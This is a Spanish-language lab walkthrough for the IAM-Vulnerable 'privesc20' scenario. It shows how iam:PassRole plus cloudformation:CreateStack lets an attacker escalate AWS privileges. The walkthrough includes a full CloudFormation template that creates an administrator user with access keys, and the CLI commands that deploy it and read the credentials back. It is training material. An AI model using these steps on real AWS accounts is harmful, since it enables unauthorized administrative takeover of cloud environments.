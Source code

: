 ```yaml
---
description: 'Lab: IAM-VULNERABLE'
---
```


# PassExistingRoleToCloudFormation

Un atacante con los permisos de <mark style="color:green;">**iam:PassRole**</mark> y <mark style="color:green;">**cloudformation:CreateStack**</mark> podría aumentar sus privilegios mediante la creación de una plantilla de CloudFormation que realizará acciones y creará recursos utilizando los permisos del rol que se pasó al crear una pila de CloudFormation

{% embed url="https://github.com/BishopFox/iam-vulnerable#supported-privilege-escalation-paths" %}
Lab: IAM - Vulnerable | Escenario: privesc20
{% endembed %}

### Configuración inicial

Usuario del laboratorio: privesc20-PassExistingRoleToCloudFormation-user Con las siguientes políticas

<figure><img src="../../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

Y configurar las llaves de acceso con AWS CLI\


<figure><img src="../../../../.gitbook/assets/image (11) (2).png" alt=""><figcaption></figcaption></figure>

### Explotación

En este escenario, tenemos que aprovechar del privilegio de <mark style="color:green;">**cloudformation:CreateStack**</mark> para crear un stack que tendrá lo necesario para escalar privilegios. Posteriormente, utilizaremos el permiso <mark style="color:green;">**cloudformation:DescribeStacks**</mark> para visualizar información relacionada al stack malicioso.&#x20;

No hay una serie de pasos específicos para escalar privilegios mediante el uso de CloudFormation. Ya que el atacante puede indicarle a CloudFormation que active cualquier recurso de AWS. En pocas palabras, se puede utilizar Cloudformation para escalar privilegios de diversas maneras como, por ejemplo, creando un nuevo usuario con permisos de administrador como se usa en el ejemplo a continuación.

Para este ejercicio se requiere de una plantilla para crear un usuario con privilegios de administrador:

{% code title="IAMCreateUserTemplate.json" overflow="wrap" %}
```json
{
  "Resources": {
    "HackedUser": {
      "Type": "AWS::IAM::User"
    },
    "AdminPolicy": {
      "Type": "AWS::IAM::ManagedPolicy",
      "Properties": {
        "Description" : "This policy allows all actions on all resources.",
        "PolicyDocument": {
          "Version": "2012-10-17",
          "Statement": [
            {
              "Effect": "Allow",
              "Action": [
                "*"
              ],
              "Resource": "*"
            }
          ]
        },
        "Users": [{
          "Ref": "HackedUser"
        }]
      }
    },
    "MyUserKeys": {
      "Type": "AWS::IAM::AccessKey",
      "Properties": {
        "UserName": {
          "Ref": "HackedUser"
        }
      }
    }
  },
  "Outputs": {
    "AccessKey": {
      "Value": {
        "Ref": "MyUserKeys"
      },
      "Description": "Access Key ID of Admin User"
    },
    "SecretKey": {
      "Value": {
        "Fn::GetAtt": [
          "MyUserKeys",
          "SecretAccessKey"
        ]
      },
      "Description": "Secret Key of Admin User"
    }
  }
}

```
{% endcode %}

Despues usando el comomando cloudformation create-stack se crea un stack con el parámetro --role para hace ruso de PassRole al servicio.

{% code overflow="wrap" %}
```
aws cloudformation create-stack --stack-name privesc --template-body file:///home/user/IAMCreateUserTemplate.json --role arn:aws:iam::ID_account:role/privesc-high-priv-service-role --capabilities CAPABILITY_IAM --profile privesc20
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

En la evidencia previa, podemos apreciar el valor del StackId que fue retornado después de ejecutar el comando para crear el stack malicioso. Ahora que hemos creado nuestro stack malicioso, vamos aprovechar nuestro otro privilegio de cloudformation:DescribeStacks para visualizar el outputkey y posteriormente autenticarnos con estas credenciales.

{% code overflow="wrap" %}
```
aws cloudformation describe-stacks --stack-name arn:aws:cloudformation:us-east-1:ID_Account:stack/privesc --profile privesc20
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (60) (1).png" alt=""><figcaption></figcaption></figure>

En la imagen se muestra la correcta creación del stack junto con las credenciales de acceso del usuario admin creado. se procede a utilizar esas llaves de acceso

<figure><img src="../../../../.gitbook/assets/image (61) (1).png" alt=""><figcaption></figcaption></figure>

Usando estas credenciales se listan las capacidades del usuario creado

<figure><img src="../../../../.gitbook/assets/image (59) (1).png" alt=""><figcaption></figcaption></figure>

Como se observa, el usuario HackedUser, tiene políticas de full administrador, habiendo comprometido y escalado privilegios de manera correcta.




